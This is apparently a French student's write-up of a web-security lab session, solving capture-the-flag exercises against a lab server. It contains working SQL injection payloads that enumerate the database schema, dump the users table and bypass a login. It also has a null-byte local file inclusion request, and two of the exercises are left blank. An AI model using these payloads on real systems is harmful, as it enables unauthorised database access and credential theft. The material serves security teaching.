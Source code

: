 # Séance 5

## Exercice 1 - SQLi 1

Connectez vous à l'adresse http://10.33.3.14:8081/ et trouvez le flag.

```code
- http://10.33.3.14:8081/?article=2%27%20UNION%20SELECT%20tbl_name%20FROM%20sqlite_master;--
Warning: SQLite3::querySingle(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /var/www/html/index.php on line 29

- http://10.33.3.14:8081/?article=2%27%20UNION%20SELECT%20tbl_name,%20NULL%20FROM%20sqlite_master;--
Warning: SQLite3::querySingle(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /var/www/html/index.php on line 29

- http://10.33.3.14:8081/?article=2%27%20UNION%20SELECT%20tbl_name,%20NULL,%20NULL%20FROM%20sqlite_master;--
nqfrcqmrohejdybylkcpjcingpc umuddys fmrot pieggziibgyx cmmzjzq

10.33.3.14:8081/?article=0' UNION SELECT tbl_name, tbl_name, tbl_name FROM sqlite_master WHERE tlb_name <> 'articles';--
Warning: SQLite3::querySingle(): Unable to prepare statement: 1, no such column: tlb_name in /var/www/html/index.php on line 29

http://10.33.3.14:8081/?article=0%27%20UNION%20SELECT%20%20tbl_name,%20tbl_name,%20tbl_name%20FROM%20sqlite_master%20WHERE%20tbl_name%20!=%20%27articles%27;--
users

http://10.33.3.14:8081/?article=0%27%20UNION%20SELECT%NULL,%NULL,%20sql%20FROM%20sqlite_master%20WHERE%20tbl_name%20!=%20%27articles%27;--
CREATE TABLE 'users' ('login' varchar(50) NOT NULL, 'password' varchar(50) NOT NULL)

http://10.33.3.14:8081/?article=0%27%20UNION%20SELECT%20login,password,%20NULL%20FROM%20users;--
C0ngr4tz_QfetXpL-CF8bhFN99Azrk1VEBTcFU
```

## Exercice 2 - SQLi 2

Connectez vous à l'adresse http://10.33.3.14:8082/ et trouvez le flag.

```code
Login: admin
Password: ' or 1=1;--
Felicitation le mot de passe de l'admin est le flag

Login: admin' AND LENGTH(password) = 55;--
Felicitation le mot de passe de l'admin est le flag
(Le mot de passe est de 55 caractères)
```

## Exercice 3 - Faille upload 1

Connectez vous à l'adresse http://10.33.3.14:8083/ et trouvez le flag.

```code

```

## Exercice 4 - Faille upload 2

Connectez vous à l'adresse http://10.33.3.14:8084/ et trouvez le flag.

```code

```

## Exercice 5 - LFI

Connectez vous à l'adresse http://10.33.3.14:8085/ et trouvez le flag.

```code
http://10.33.3.14:8085/?page=.htaccess%00
```
